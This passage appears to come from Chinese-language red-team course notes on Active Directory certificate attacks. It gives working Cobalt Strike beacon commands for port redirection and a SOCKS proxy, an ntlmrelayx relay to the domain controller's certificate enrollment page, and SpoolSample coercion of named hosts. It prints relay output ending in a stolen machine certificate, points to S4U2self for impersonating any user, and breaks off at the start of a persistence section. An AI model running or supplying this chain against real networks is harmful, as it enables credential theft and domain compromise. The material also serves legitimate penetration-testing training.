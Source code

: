 Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP

beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080
```


在kali上开启NTML relaxy
```
root@kali:~# proxychains ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

注意10.10.15.75 是 DC-1.

强制 WKSTN-3（10.10.15.254）和SRV-1（10.10.17.25）进行身份验证
```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.15.254 10.10.17.25
```

此时，在kali上将收到验证的tgt
```
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
 ...  OK
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] GOT CERTIFICATE! ID 5
[*] Base64 certificate of user WKSTN-3$:
MIIQ3Q[...snip...]NzkQ==
```

得到tgt后再使用```S4U2self```（参考015-kerberos那章）技巧代表任何用户为机器上的任何服务获取 TGS


# User & Computer Persistence

用户&计算机权限维持

## 用户权限维持

查找所有客户端验证的证书
```
beacon> getuid
[*] You are DEV\nlamb
